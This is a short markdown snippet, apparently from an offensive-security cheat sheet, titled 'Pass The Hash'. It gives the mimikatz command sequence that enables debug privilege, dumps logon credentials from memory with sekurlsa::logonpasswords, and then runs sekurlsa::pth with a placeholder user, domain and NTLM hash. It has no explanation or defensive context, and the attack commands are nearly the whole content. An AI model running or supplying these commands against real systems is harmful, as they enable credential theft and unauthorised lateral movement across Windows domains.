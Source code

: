 **Pass The Hash**

mimikatz# privilege::debug

mimikatz# sekurlsa::logonpasswords

mimikatz# sekurlsa::pth /user:admin /domain:xyz.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxx

![](images/Pass The Hash.png) <br />
